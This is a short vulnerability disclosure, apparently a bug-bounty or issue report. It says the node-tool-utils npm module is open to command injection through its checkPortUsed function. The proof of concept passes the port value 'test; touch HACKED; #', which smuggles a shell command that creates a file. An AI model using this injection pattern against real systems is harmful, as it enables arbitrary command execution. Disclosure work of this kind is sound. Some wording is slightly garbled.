 # Description

The `node-tool-utils` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
const tool = require('node-tool-utils');
tool.checkPortUsed("test; touch HACKED; #"); //The *port* parameter should be numeric and inserted as 2' argument of

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i node-tool-utils # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
